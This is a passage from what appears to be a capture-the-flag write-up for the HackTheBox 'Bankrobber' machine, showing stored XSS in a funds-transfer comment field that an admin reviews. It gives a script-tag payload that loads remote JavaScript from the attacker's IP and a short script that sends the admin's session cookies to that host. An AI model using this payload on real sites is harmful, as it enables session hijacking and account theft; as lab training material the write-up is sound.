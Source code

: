 ![](/assets/images/htb-writeup-bankrobber/web3.png)

When I transfer funds, I get a popup message saying the admin will review the transaction. This screams XSS to me because there's a comment field that the admin will see and if it's not sanitized correctly I'll be able to inject javascript code in his browser session.

![](/assets/images/htb-writeup-bankrobber/web4.png)

## Exploiting the XSS

My XSS payload in the comments field is very simple: `<script src="http://10.10.14.19/xss.js"></script>`

This'll make the admin browser download a javascript file from my machine and execute its code.

The `xss.js` will steal the session cookies from the admin and send them to my webserver.

```javascript
function pwn() {
    var img = document.createElement("img");
    img.src = "http://10.10.14.19/xss?=" + document.cookie;
    document.body.appendChild(img);
}
pwn();
```
